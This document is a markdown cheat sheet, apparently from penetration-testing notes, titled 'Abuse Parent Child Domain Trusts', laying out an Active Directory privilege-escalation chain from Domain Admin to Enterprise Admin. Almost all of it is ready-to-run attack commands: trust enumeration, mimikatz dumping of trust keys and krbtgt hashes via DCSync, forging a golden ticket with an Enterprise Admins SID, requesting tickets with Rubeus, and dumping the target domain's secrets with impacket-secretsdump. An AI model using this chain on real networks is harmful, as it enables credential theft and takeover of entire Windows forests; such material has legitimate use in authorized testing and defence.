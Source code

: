 ```yaml
---
title: "Abuse Parent Child Domain Trusts"
date: 2024-7-2
tags: ["kerberos", "da", "ea", "active directory", "ad", "domain controller", "Windows", "golden ticket", "privesc", "mimikatz", "rubeus", "trusts"]
---
```


---
### Privesc from DA (Domain Admin) to EA (Enterprise Admin)

#### 1. Check trust relationships

```powershell
# Get all trusted domain objects in a forest
Get-ADTrust -Filter *
```

```powershell
# Returns a list of trusted domains
nltest /domain_trusts
```

```powershell
# Gets a collection of the trust relationships of the current forest
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```

#### 2. Get current and target domain SID

```powershell
./mimikatz.exe 'lsadump::trust' 'exit'
```

#### 3. Get krbtgt hash of current domain

```powershell
./mimikatz.exe 'lsadump::dcsync /all /csv' 'exit'
```

#### 4. Forge a golden ticket

```powershell
# Append '-519' to target domain SID
./mimikatz.exe 'kerberos::golden /user:Administrator /rc4:<HASH> /domain:<CURRENT_DOMAIN> /sid:<CURRENT_DOMAIN_SID> /sids:<TARGET_DOMAIN_SID>-519 /ticket:C:\ProgramData\ticket.kirbi' 'exit'
```

<small>*Note: Try different high value hashes if failed*</small>

#### 5. Request a tgt ticket of target domain

```powershell
./rubeus.exe asktgs /service:cifs/<TARGET_DOMAIN> /domain:<DOMAIN> /dc:<DC> /ticket:C:\ProgramData\ticket.kirbi /outfile:C:\ProgramData\ticket_2.kirbi /nowrap
```

#### 6. Convert kirbi to ccache (Back to Linux)

[RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)

```bash
python3 rubeustoccache.py <BASE64_TICKET_2> secrets.kirbi secrets.ccache
```

#### 7. Secrets Dump

```bash
export KRB5CCNAME=secrets.ccache
```

```bash
impacket-secretsdump administrator@<TARGET_DOMAIN> -k -no-pass
```

<br>